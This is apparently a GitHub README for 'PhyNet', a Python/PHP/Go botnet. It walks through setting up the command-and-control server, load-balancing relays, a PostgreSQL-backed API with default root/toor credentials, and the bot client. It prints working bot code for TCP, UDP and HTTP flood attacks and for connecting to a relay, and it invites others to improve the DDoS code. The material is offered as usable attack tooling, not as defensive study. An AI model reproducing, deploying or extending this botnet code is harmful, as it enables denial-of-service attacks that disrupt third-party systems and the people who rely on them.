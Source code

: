 # PhyNet
 phynet is a botnet coded in python and php, wich is using relays for balancing bots and uses only one cnc.  
 phynet is an old project in bad languages for a botnet and actually not working well, you may want to uses oldest versions, you can consider this code as a POC of a easy balanced botnet

# CNC
Def: "Command and Control" (C&C) servers are centralized machines that are able to send commands and receive outputs of machines part of a botnet. Anytime attackers who wish to launch a DDoS attack can send special commands to their botnet's C&C servers with instructions to perform an attack on a particular target, and any infected machines communicating with the contacted C&C server will comply by launching a coordinated attack.   

My cnc works with a relay (which will relay the commands to the bots to avoid an overload of the cnc server), it also works with an api which will be mainly used to register the relay servers to be able to dispatch the bots on the server having the least load, the api will also be used to login on the cnc

for setup the [cnc](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/cnc.py):  
```batch
python3 cnc.py <port>
```
or just `make cnc` with the makefile

The cnc password is stored in the sql database, the cnc uses the page [login.php](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2/login.php) for login, like this we doesn't have to keep a raw text file with the password in it, moreover the password is a combo of sha512(sha256(password)) and is inserted with the following sql command: 
```sql
INSERT INTO users (id, username, password) VALUES (1, 'root', 'a528e21133187fecdd0c8f5c583733cfe86e7b6e3857dcd5682f6f54fb17fcce8f9da13c8c90854741df8d096f3d415291a4f6b7f08028a47c6abc82a2ea760c');
```
here the default username is **root** and the default password is **toor**

# RELAY
for setup the [relay](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/relay.py):  
```batch
python3 relay.py <port>
```
or just `make relay` with the makefile

# API
for setup the [api](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2), you need a database:
## API Database:
```sql
DROP TABLE IF EXISTS relays;
CREATE TABLE relays (
    relay_ip TEXT NOT NULL,
    relay_bots INTEGER NOT NULL,
    relay_swap_key TEXT NOT NULL
);

DROP TABLE IF EXISTS users;
CREATE TABLE users (
    id SERIAL PRIMARY KEY,
    username TEXT NOT NULL,
    password TEXT NOT NULL
);

INSERT INTO users (id, username, password) VALUES (1, 'root', 'a528e21133187fecdd0c8f5c583733cfe86e7b6e3857dcd5682f6f54fb17fcce8f9da13c8c90854741df8d096f3d415291a4f6b7f08028a47c6abc82a2ea760c');
```
(the password encryption is sha512(sha256(password)))   
In golang you can use this function for generate a password (you can just call it in the api main function once)
```golang
func createAccount(username, password string) {
	password256Bytes := sha256.Sum256([]byte(password))
	passwordHash256 := hex.EncodeToString(password256Bytes[:])

	password512Bytes := sha512.Sum512([]byte(passwordHash256))
	passwordHash := hex.EncodeToString(password512Bytes[:])

	if _, err := dbs.GetPostgres().Exec(
		`INSERT INTO users (username, password) VALUES ($1, $2)`,
		username,
		passwordHash,
	); err != nil {
		log.Fatal(err)
	}
}
```
Next, you will need to build and start the api server which in v3 is in golang so you doesn't need a php server anymore, just a simple `make api` will run it but before you will need to have golang installed [like This](https://go.dev/doc/install) and you will also need to have a postgresql server as main database (postgresql is an application which is running on a server, so you can buy dedicated postgresql servers on the cloud (AWS, OVH, etc) or you can run your own on your computer or your server [Like This](https://www.postgresql.org/download/) or [With Docker](https://www.docker.com/blog/how-to-use-the-postgres-docker-official-image/))  
To connect your database with your api, you can go on [postgres.go](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v3/internal/databases/postgres.go#L13) and change lines 13, 14 and 15 with your config.
Once your api is running with your database connected you'll have to change your api url (only the ip) in:  
> the zomb ([CLIENT/zomb.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/bot/zomb.py#L44)) `API_URL: str = "http://127.0.0.1/v3"` (L44),  
> the cnc config ([SERVER/cnc.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/modules/config.py#L52)) `API_URL: ClassVar[str] = "http://127.0.0.1:8052/v3"` (L52),  
> and the relay config ([SERVER/relay.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/modules/config.py#L41)) `API_URL: ClassVar[str] = "http://127.0.0.1:8052/v3"` (L41)  

# ZOMB
you may want to compile the bot with nuitka (create a fast executable file because the python code is transpiled to c and compiled)
but the simple command for running it is:
```batch
python3 zomb.py
```
you can just build it (with nuitka) with the command `make build-bot` or run it with `make bot`

## ZOMB DDOS Code: 
here is a preview of the zomb ddos code for each mode, it's really basic but if you want to improve it, don't hesitate to contact me (my discord is in my profile)
```python
def dos(
    s: sock,
    attack: tuple[str, int],
    tps: int,
    method: str,
) -> None: # start dos attack with socket and attack target
    tps += int(time()) # set the attack time with actual time + attack time

    match method:
        case "TCP":
            log("TCP")
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(bytes(PAYLOAD, "utf-8"))
                except: pass

        case "UDP":
            log("UDP")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass

        case "HTTP":
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(f'GET / HTTP/1.1\r\nHost: {attack[0]}\r\nUser-Agent: {rand_ua()}\r\nConnection: keep-alive\r\n\r\n'.encode())

                except: s.close()

        case _:
            log("Unknown")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass
```
## The ZOMB Socket Connection
```python
relay: sock = sock(AF_INET, SOCK_STREAM)
relay.setsockopt(SOL_SOCKET, SO_KEEPALIVE, 1)

while 1:
    try:
        RELAY_IP: str = rget(f"{API_URL}/dispatch?urlkey={URL_KEY}", timeout=5000).text

        relay_address.clear()
        relay_address.append(RELAY_IP)

        relay.connect((RELAY_IP, RELAY_PORT))

        log((RELAY_IP, RELAY_PORT))

        while 1:
            data: str = relay.recv(1024).decode()

            if 'Username' in data:
                relay.send('BOT'.encode())
                log("send bot")
                break

        while 1:
            data: str = relay.recv(1024).decode()

            if 'Password' in data:
                relay.send('\xff\xff\xff\xff\75'.encode('cp1252'))
                log("send bot string")
                break

        break

    except:
        sleep(240)
```
